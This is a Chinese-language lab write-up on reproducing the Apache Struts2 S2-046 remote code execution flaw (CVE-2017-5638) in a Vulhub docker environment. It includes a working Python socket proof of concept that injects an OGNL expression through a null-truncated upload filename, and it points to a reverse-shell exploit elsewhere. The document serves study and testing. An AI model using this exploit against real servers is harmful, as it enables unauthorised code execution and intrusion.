

Apache Struts2 S2-046 远程代码执行漏洞 CVE-2017-5638¶
漏洞描述¶
漏洞详情:
漏洞影响¶
影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
环境搭建¶
Vulhub 执行以下命令启动 s2-046 测试环境：
docker-compose build
docker-compose up -d
环境启动后，访问 http://your-ip:8080 即可看到上传页面。
漏洞复现¶
与 s2-045 类似，但是输入点在文件上传的 filename 值位置，并需要使用 \x00 截断。
由于需要发送畸形数据包，我们简单使用原生 socket 编写 payload：
import socket
q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain
foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d
'''.replace(b'\n', b'\r\n') % (len(q), )
with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
conn.send(p + q)
print(conn.recv(10240).decode())
233*233 已成功执行：

反弹 shell¶
详情参考《Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638》中的漏洞 EXP。